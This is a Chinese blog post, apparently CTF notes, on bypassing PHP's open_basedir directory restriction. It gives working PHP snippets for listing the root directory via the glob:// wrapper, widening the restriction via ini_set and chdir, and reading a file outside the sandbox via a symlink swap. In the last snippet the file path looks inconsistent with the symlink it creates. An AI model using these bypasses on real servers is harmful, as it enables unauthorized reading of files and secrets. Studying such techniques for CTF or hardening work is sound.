 ```yaml
---
layout: post
title:  "php open_basedir绕过"
date:   2019-11-30
desc: ""
keywords: ""
categories: [Web]
tags: []
icon: icon-html
---
```


# php open_basedir绕过

## open_basedir

将用户访问文件的活动范围限制在指定的区域

### 设置方法

* php.ini

  ```
  open_basedir=""
  ```

* php程序中

  ```php
  ini_set('open_basedir', '');
  ```

* .user.ini

  ```
  open_basedir=""
  ```

  

##命令执行函数

open_basedir管不了命令执行函数



## glob伪协议

查找匹配的文件路径模式，PHP5.3.0起开始有效

```
glob://
```

利用glob伪协议可以绕过open_basedir读取根目录

```php
<?php
  $a = "glob:///*";;
  if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
      echo $file."<br>";
    }
    closedir($b);
  }
?>
```



## ini_set

```php
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
```

先利用ini_set把open_basedir设为..

此时chdir('..');合法，执行后..变为上一级目录，继续chdir('..');依然合法，最终可以open_basedir设为根目录



## symlink

```php
<?php
  mkdir("a");
  chdir("a");
  mkdir("b");
  chdir("b");
  chdir("..");
  chdir("..");
  symlink("a/b/","tmplink");
  symlink("tmplink/../../flag.txt","fuck");
  unlink("tmplink");
  mkdir("tmplink");
  echo file_get_contents("127.0.0.1/fuck");
?>
```

创建a/b/然后回来，tmplink和a/b/建立符号链接

然后tmplink/../../flag.txt和fuck建立符号链接

fuck指向tmplink/../../flag.txt也就是a/b/../../flag.txt

然后unlink("tmplink");

此时，fuck的符号链接还在，在当前目录创建一个tmplink文件夹

fuck就指向tmplink/../../flag.txt，就可以拿到上一级目录的flag